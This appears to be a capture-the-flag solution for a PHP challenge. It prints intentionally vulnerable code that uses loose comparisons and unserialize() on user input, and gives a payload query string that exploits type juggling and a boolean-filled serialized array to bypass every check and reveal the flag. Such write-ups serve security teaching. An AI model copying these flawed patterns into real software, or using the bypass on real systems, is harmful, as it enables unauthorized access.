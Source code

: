 ## code `fatherphp.php`
```php
<?php

include('flag_fp.php');

highlight_file('fatherphp.php');

$a = $_GET['key1'];

if($a==56 || $a>256){
  die("Really???");
}
elseif(chr($a)==="8"){
  echo "Carry on" . "<br>";
  echo $flag1 . "<br>";
}
else{
  die("You are not good");
}

$b = $_GET['key2'];

if(strpos($b,'8')!==false){
  die("It won't be that easy");
}
for($i=0;$i<=1;$i++){
  ++$b;
}
if($b==10){
  echo "Good luck" . "<br>";
  echo $flag2 . "<br>";
}
else{
  die("No Luck");
}

$m = md5($_GET['rq']);

if($_GET['fp'] == $m){
  echo $flag3."<br>";
}
elseif(isset($fp)){
  die("You failed");
}

$n = hash('ripemd160',$_GET['np']);

if($_GET['nq'] === $n){
  echo $flag4."<br>";
}
elseif(isset($np)){
  die("You failed");
}

$hell=$_GET['key3'];
if(strpos($hell, 'i')!==false || strpos($hell, 'I')!==false){
  die("You...can't...");
}
$data = unserialize($hell);
if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
 echo $flag5 . "<br>";
} else {
 die("useless");
}

?>

```

## code `flag_fp.php`

```php
$flag1 = "secarmy{y0u";
$flag2 = "_5h0uld_a";
$flag3 = "v01d_";
$flag4 = "pHp_d0n";
$flag5 = "7'you??}";
$adminName = sha1(mt_rand());
$adminPassword =  sha1(mt_rand());
```
## PAYLOAD
|key|value|
|--|--|
|key1| `-71857864`|
|key2 | `1e1 - 2`|
|rq| `rq`|
|fp| `c6d8c86cf807f3f3b38850342d1531b3`|
|np| `np`|
|nq| `f48bc65fa1e0549ba479b41e57a4006a861358fc`|
|key3| `a:2:{s:8:"username";b:1;s:8:"password";b:1;}`|


```
?key1=-71857864&key2=1e1%20-2&rq=rq&fp=c6d8c86cf807f3f3b38850342d1531b3&np=np&nq=f48bc65fa1e0549ba479b41e57a4006a861358fc&key3=a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```


